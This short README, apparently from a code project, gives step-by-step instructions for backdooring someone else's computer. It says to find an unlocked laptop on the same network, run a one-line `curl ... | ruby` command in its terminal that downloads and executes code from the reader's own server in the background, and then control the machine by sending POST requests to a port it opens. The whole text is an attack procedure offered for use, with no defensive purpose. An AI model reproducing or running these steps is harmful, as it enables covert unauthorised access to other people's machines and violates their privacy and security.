 1. run `npm start` or `node server.js`, note your local ip
2. find unlocked laptop on same network
3. open their terminal and run `(exec curl http://<your_local_ip>:9000 | ruby &)`
4. return to your terminal and note the local ip of incoming connection, this is <target_ip>
5. use postman or curl to send post requests to `http://<target_ip>:2345` (works with application/json or application/x-www-form-urlencoded content-types)

